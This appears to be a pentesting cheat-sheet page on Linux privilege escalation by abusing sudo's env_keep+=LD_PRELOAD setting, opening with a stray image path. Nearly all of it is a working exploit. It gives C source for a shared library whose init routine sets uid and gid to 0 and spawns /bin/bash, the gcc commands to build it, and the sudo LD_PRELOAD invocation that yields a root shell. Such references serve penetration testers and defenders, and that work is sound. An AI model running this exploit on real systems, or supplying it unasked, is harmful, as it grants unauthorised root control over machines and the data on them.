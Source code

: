 # Compiling

### LD-PRELOAD

If you find inside the output of **`sudo -l`** the sentence: _**env\_keep+=LD\_PRELOAD**_ and you can call some command with sudo, you can escalate privileges.

```
Defaults        env_keep += LD_PRELOAD
```

Save as **/tmp/pe.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```



Then **compile it** using:

```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, **escalate privileges** running. Try full path in LD\_PRELOAD=

```bash
sudo LD_PRELOAD=pe.so <COMMAND>
```

If system doesnt have gcc you can cross compile

```
gcc ldpreload.c -o rootshell -fPIC -shared -nostartfiles -w 
```

